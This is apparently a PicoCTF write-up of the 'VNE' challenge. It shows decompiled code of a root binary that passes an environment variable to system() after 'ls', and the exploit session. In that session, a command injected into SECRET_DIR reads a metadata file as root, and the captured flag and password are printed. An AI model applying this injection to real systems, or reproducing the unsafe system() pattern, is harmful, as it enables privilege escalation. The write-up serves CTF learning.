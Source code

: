 ```yaml
---
title: PicoCTF - VNE
tags: [PicoCTF, PWN, CTF]

---
```


# PicoCTF - VNE
## Background
System Environment
Command Injection

## Description & Hint
We've got a binary that can list directories as root, try it out !! ssh to saturn.picoctf.net:53176, and run the binary named "bin" once connected. Login as ctf-player with the password, d137d16e
* Hint 1: Have you checked the content of the /root folder
* Hint 2: Find a way to add more instructions to the ls

## Source Code
:::spoiler IDA Main Function
```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rax
  int v4; // ebx
  __int64 v5; // rax
  __int64 v6; // rax
  __int64 v7; // rax
  const char *v8; // rax
  __int64 v9; // rax
  __int64 v10; // rax
  char v12; // [rsp+3h] [rbp-6Dh] BYREF
  unsigned int v13; // [rsp+4h] [rbp-6Ch]
  char *v14; // [rsp+8h] [rbp-68h]
  char v15[32]; // [rsp+10h] [rbp-60h] BYREF
  char v16[40]; // [rsp+30h] [rbp-40h] BYREF
  unsigned __int64 v17; // [rsp+58h] [rbp-18h]

  v17 = __readfsqword(0x28u);
  v14 = getenv("SECRET_DIR");
  if ( v14 )
  {
    v5 = std::operator<<<std::char_traits<char>>(&std::cout, "Listing the content of ");
    v6 = std::operator<<<std::char_traits<char>>(v5, v14);
    v7 = std::operator<<<std::char_traits<char>>(v6, " as root: ");
    std::ostream::operator<<(v7, &std::endl<char,std::char_traits<char>>);
    std::allocator<char>::allocator(&v12);
    std::string::basic_string(v16, v14, &v12);
    std::operator+<char>(v15, "ls ", v16);
    std::string::~string(v16);
    std::allocator<char>::~allocator(&v12);
    setgid(0);
    setuid(0);
    v8 = (const char *)std::string::c_str(v15);
    v13 = system(v8);
    if ( v13 )
    {
      v9 = std::operator<<<std::char_traits<char>>(&std::cerr, "Error: system() call returned non-zero value: ");
      v10 = std::ostream::operator<<(v9, v13);
      std::ostream::operator<<(v10, &std::endl<char,std::char_traits<char>>);
      v4 = 1;
    }
    else
    {
      v4 = 0;
    }
    std::string::~string(v15);
  }
  else
  {
    v3 = std::operator<<<std::char_traits<char>>(&std::cerr, "Error: SECRET_DIR environment variable is not set");
    std::ostream::operator<<(v3, &std::endl<char,std::char_traits<char>>);
    return 1;
  }
  return v4;
}
```
:::
## Recon
這一題也是蠻有趣的，題目有說要先執行bin，可以用winscp遠端把執行檔dump到local端，然後用IDA逆一下，就會發現它其實就是執行ls而已，所以我們就要用簡單的command injection達到RCE
## Exploit
```bash
$ ssh ctf-player@saturn.picoctf.net -p 58395
$ ./bin
Error: SECRET_DIR environment variable is not set
$ export SECRET_DIR=/challenge/
$ ./bin
Listing the content of /challenge/ as root:
config-box.py  metadata.json  profile
$ export "SECRET_DIR=/;cat /challenge/metadata.json"
$ ./bin
Listing the content of /;cat /challenge/metadata.json as root:
bin   challenge  etc   lib    lib64   media  opt   root  sbin  sys  usr
boot  dev        home  lib32  libx32  mnt    proc  run   srv   tmp  var
{"flag": "picoCTF{Power_t0_man!pul4t3_3nv_19a6873b}", "password": "d137d16e"}
```

Flag: `picoCTF{Power_t0_man!pul4t3_3nv_19a6873b}`